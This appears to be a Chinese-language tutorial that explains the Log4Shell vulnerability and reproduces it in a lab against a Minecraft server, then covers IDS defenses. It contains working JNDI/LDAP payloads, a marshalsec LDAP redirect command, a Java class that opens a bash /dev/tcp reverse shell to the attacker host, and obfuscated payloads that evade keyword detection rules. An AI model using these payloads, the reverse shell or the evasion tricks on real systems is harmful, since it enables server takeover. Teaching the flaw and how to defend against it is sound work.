



---

# Log4j 漏洞(大白话解释+复现)

## 漏洞原理：为什么一个日志库能控制整个服务器？

### 什么是 Log4j？

想象一下，你在写日记。每天发生什么事，你都要记录下来：

- "今天小明登录了系统"
- "用户张三购买了商品"
- "系统在下午 3 点出现了错误"

Log4j 就是 Java 程序的"日记本"，几乎所有 Java 应用都用它来记录发生的事情。

### Log4j 的"聪明"功能

Log4j 为了方便，提供了一个"聪明"的功能。比如你想在日志中显示用户名，不用每次都手动写，可以这样写：

```
用户 ${env:USERNAME} 登录了系统
```

Log4j 看到`${env:USERNAME}`会自动替换成真实的用户名。

### JNDI：Java 的"外卖服务"

Java 有个叫 JNDI 的功能，就像外卖服务一样：

- 你告诉它一个地址（比如某个服务器）
- 它去那个地址取东西（比如配置信息）
- 然后把取回来的东西给你

Log4j 恰好也支持 JNDI 查找：`${jndi:ldap://某个服务器/某个文件}`

### 漏洞的形成：信任链被破坏



**正常情况下应该是这样的：**

1. 用户输入："我的用户名是张三"
2. 程序记录："用户张三登录了"
3. 结束

**但 Log4j 的"聪明"功能被恶意利用了：**

1. 攻击者输入：`${jndi:ldap://恶意服务器/病毒}`
2. Log4j 看到这个格式，以为是正常的查找请求
3. Log4j 主动连接恶意服务器
4. 恶意服务器说："给你一个'配置文件'"（实际是病毒）
5. Log4j 下载并执行了病毒
6. 攻击者控制了整个服务器

**关键问题：** Log4j 把用户输入当作了"指令"来执行，而不是普通的"数据"来记录。

## 实战攻击复现

### 实验环境搭建

我们用 Minecraft 服务器做实验，因为 Minecraft 用 Java 写的，使用了有漏洞的 Log4j；聊天消息会被记录到日志中；容易演示攻击过程

**网络结构：**

- 攻击者电脑（Kali）：1.1.1.1
- 目标服务器（Ubuntu）：2.2.2.2（运行 Minecraft）
- 防火墙：3.3.3.3



### 第一步：确认漏洞存在

**攻击者操作：**

1. 在自己电脑上开启监听：`nc -lnvp 443`（等着接电话）
2. 在 Minecraft 聊天框输入：`${jndi:ldap://1.1.1.1:443/test}`
3. 按回车发送

**发生了什么：**

```
Minecraft服务器 → Log4j处理聊天消息 → 发现JNDI指令 → 主动连接1.1.1.1:443
```

**结果：** 攻击者的监听器收到连接！说明服务器确实有漏洞。

**用人话说：** 就像你在日记本写"去${某个地址}拿东西"，日记本居然真的跑去那个地址了！

### 第二步：搭建攻击基础设施

攻击者需要准备三样东西：

**1. 恶意代码服务器（HTTP 服务器，端口 993）：**

```bash
# 攻击者在自己电脑上运行
python3 -m http.server 993
```

这就像开了一个"毒药店"，专门提供病毒。

**2. 中转服务器（LDAP 服务器，端口 995）：**

```bash
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer "http://1.1.1.1:993/#病毒" 995
```

这就像一个"快递员"，告诉别人去哪里拿病毒。

**3. 病毒代码（Log4jRCE.java）：**

```java
public class Log4jRCE {
    static {
        // 一旦被加载就执行这里的代码
        try {
            // 先试试打开计算器
            Process p = new ProcessBuilder("gnome-calculator").start();
        } catch (Exception e) {}
    }
}
```

### 第三步：执行攻击

**攻击者在 Minecraft 聊天框输入：**

```
${jndi:ldap://1.1.1.1:995/Log4jRCE}
```

**完整攻击链：**

```
1. Minecraft服务器看到聊天消息
2. Log4j解析：去1.1.1.1:995找Log4jRCE
3. 服务器连接995端口（LDAP服务器）
4. LDAP服务器说："去1.1.1.1:993下载Log4jRCE.class"
5. 服务器从993端口下载病毒文件
6. Java虚拟机自动执行病毒代码
7. 目标服务器打开了计算器！
```

**结果：** 攻击者成功在目标服务器上执行了任意代码！

### 第四步：获取完全控制权（反向 Shell）

攻击者修改病毒代码，不再打开计算器，而是建立后门连接：

```java
public class Log4jRCE {
    static {
        try {
            String cmd = "/bin/bash -c 'exec 5<>/dev/tcp/1.1.1.1/443;cat <&5 | while read line; do $line 2>&5 >&5; done'";
            Process p = new ProcessBuilder("bash", "-c", cmd).start();
        } catch (Exception e) {}
    }
}
```

**攻击者重新编译病毒，再次发送载荷：**

```
${jndi:ldap://1.1.1.1:995/Log4jRCE}
```

**结果：** 攻击者获得了目标服务器的完全控制权，可以执行任何命令！

## 初级防御反击

### 部署防火墙规则

管理员发现被攻击后，紧急部署防火墙规则：

```
# 检查所有发往Minecraft服务器的数据包
alert tcp any any -> 2.2.2.2 25565 (content: "jndi"; msg: "发现攻击！"; sid:1)
alert tcp any any -> 2.2.2.2 25565 (content: "ldap"; msg: "发现攻击！"; sid:2)
alert tcp any any -> 2.2.2.2 25565 (content: "Log4j"; msg: "发现攻击！"; sid:3)
```

**用人话说：** 就像在邮局设置规则："凡是信件内容包含'jndi'、'ldap'、'Log4j'这些可疑词汇的，一律拦截！"

### 防御测试

**攻击者再次尝试相同载荷：**

```
${jndi:ldap://1.1.1.1:995/Log4jRCE}
```

**结果：** 攻击失败！防火墙成功拦截了攻击。

## 攻击升级-载荷混淆技术

### 攻击者的反击：隐藏攻击载荷

攻击者想："既然防火墙检查关键词，我就把关键词藏起来！"

**混淆技术原理：** Log4j 支持嵌套解析，可以把字符分开写，运行时再拼接：

**1. 隐藏"jndi"：**

```
原来：jndi
现在：j${::-n}d${::-i}
解释：${::-n}输出"n"，${::-i}输出"i"，最终拼成"jndi"
```

**2. 隐藏"ldap"：**

```
原来：ldap
现在：ld${date:'a'}p
解释：${date:'a'}输出字母"a"，最终拼成"ldap"
```

**3. 隐藏类名：**

```
原来：Log4jRCE
现在：Lo${sys:NONEXIST:-g}4jRCE
解释：读取不存在的系统变量，默认返回"g"，拼成"Log4jRCE"
```

### 混淆载荷攻击



**完整的混淆载荷：**

```
${j${::-n}d${::-i}:ld${date:'a'}p://1.1.1.1:995/Lo${sys:NONEXIST:-g}4jRCE}
```

**防火墙看到的是：** 一堆看起来无害的字符组合 **Log4j 解析后变成：** `${jndi:ldap://1.1.1.1:995/Log4jRCE}`

### 绕过攻击成功！

**攻击者输入混淆载荷后：**

- 防火墙没有发现任何可疑关键词，放行了数据包
- Log4j 照常解析并执行了恶意载荷
- 攻击者再次获得了系统控制权
- 防火墙日志显示：**没有任何告警！**

**用人话说：** 就像写暗号一样，"去买 🍎🍌🍊"，邮局检查员看不懂暗号含义，但收信人知道这是"去买水果"的意思。

## 最终防御-专业规则集

### 升级防御策略

管理员意识到基础关键词检测不够用，部署了专业的安全规则集：

```bash
# 使用专业的Emerging Threats规则集
grep CVE-2021-44228 emerging-all.rules > advanced_log4j.rules
```

**专业规则特点：**

- 不只检查关键词，还检查语法结构
- 能识别各种混淆技术
- 包含正则表达式匹配模式

### 最终防御测试

**攻击者再次使用混淆载荷：**

```
${j${::-n}d${::-i}:ld${date:'a'}p://1.1.1.1:995/Lo${sys:NONEXIST:-g}4jRCE}
```

**结果：** 攻击被成功阻断！因为防火墙识别出了混淆模式，同时触发了 5 条不同的检测规则，所以攻击者无法再获得系统访问权限

## 攻防对抗-技术总结

### 攻击演进过程

```
第一阶段：基础攻击
载荷：${jndi:ldap://1.1.1.1/恶意代码}
结果：成功执行

第二阶段：基础防御
方法：检查关键词"jndi"、"ldap"
结果：攻击被阻断

第三阶段：混淆绕过
载荷：${j${::-n}d${::-i}:ld${date:'a'}p://1.1.1.1/恶意代码}
结果：绕过基础防御

第四阶段：高级防御
方法：专业规则集，检查语法结构
结果：混淆攻击被识别并阻断
```

### 核心技术原理

**为什么混淆能成功？**

1. **时间差攻击：** 防火墙在网络层检查数据包，看到的是混淆后的内容
2. **解析差异：** 只有 Log4j 在应用层才能还原出真实载荷
3. **信任问题：** Log4j 信任所有看起来像"配置语法"的内容

**防御的关键：**

1. **多层防御：** 网络层+应用层+主机层
2. **行为检测：** 不只看内容，还要看行为模式
3. **持续更新：** 攻击技术在进化，防御规则也要跟上

## 深度反思

**<u>为什么 Log4Shell 成为史上最严重的安全事件</u>**

### 修补困难：不只是打补丁那么简单

**表面上看起来很简单：** "发现漏洞了？那就升级 Log4j 版本呗！"

**现实却残酷得多：**

**1. 依赖地狱问题** 想象一下你要修理一辆汽车的引擎，但发现 80%的汽车，引擎被藏在 5 层包装里面；你要拆掉车顶、座椅、仪表盘、变速箱，才能碰到引擎；每拆一层，都可能影响其他部件的运作。这就是 Java 依赖链的现实：

```
你的应用 → 使用框架A → 框架A依赖框架B → 框架B依赖框架C → 框架C依赖Log4j
```

大部分应用根本不知道自己在用 Log4j，因为它被埋在依赖的第 5 层！

**2. 修复不彻底** 更糟糕的是，第一次"修复"并不完整：修复 Log4Shell 后，又发现了其他相关漏洞；开发者需要反复修复、测试、部署；每次修复都可能引入新问题。

**3. 影响范围惊人** Maven 中央仓库里 8%的软件包都受影响（正常情况下只有 2%），这意味着几乎每个 Java 项目都可能受影响；全球数百万个应用需要同时修复。

### 根本问题：违反了两个基本安全原则

**原则一：永远不要相信用户输入**

Log4j 犯的错误：

```java
// 错误做法：直接处理用户输入
logger.info(用户输入的聊天消息); // 用户输入可能是恶意载荷

// 正确做法：过滤或转义
logger.info("用户消息: {}", sanitize(用户输入的聊天消息));
```

**原则二：复杂性是安全的敌人**

对比两种写法：

**Log4j 的"聪明"方式（复杂，危险）：**

```java
logger.info("Hello ${env:HOME}"); // 看起来简洁，实际上背后有大量隐藏代码
```

**简单直接的方式（安全）：**

```java
logger.info("Hello {}", System.getenv("HOME")); // 代码更长，但逻辑清晰
```

Log4j 为了让代码"看起来漂亮"，引入了大量隐藏的复杂功能，这些功能：

- 开发者不知道存在
- 文档复杂难懂
- 默认开启（选择退出，而不是选择加入）
- 增加了巨大的攻击面

**Log4Shell 就像给了陌生人家里的钥匙，而这把钥匙藏在每个人都在用的"日记本"里。当全世界发现这个问题时，几乎所有的"房子"都已经门户大开了。**
